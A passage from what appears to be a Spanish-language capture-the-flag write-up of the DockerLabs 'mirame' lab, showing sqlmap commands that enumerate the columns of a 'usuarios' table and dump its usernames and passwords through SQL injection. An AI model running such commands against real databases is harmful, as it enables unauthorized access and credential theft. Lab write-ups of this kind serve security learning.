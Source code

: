 ![](assets/img/dockerlabs-writeup-mirame/mirame2_3.png)

Luego, ajusto el comando nuevamente para enumerar las columnas de la tabla ```usuarios```, verificando que efectivamente son las tres mencionadas: ```id```, ```password``` y ```username```.

```terminal
/home/kali/Documents/dockerlabs/mirame:-$ sqlmap -r request.txt -D users -T usuarios --columns --dbms=mysql --batch
```

![](assets/img/dockerlabs-writeup-mirame/mirame2_4.png)

Finalmente, dumpeo los datos de las columnas.

```terminal
/home/kali/Documents/dockerlabs/mirame:-$ sqlmap -r request.txt -D users -T usuarios --dump --dbms=mysql --batch
```
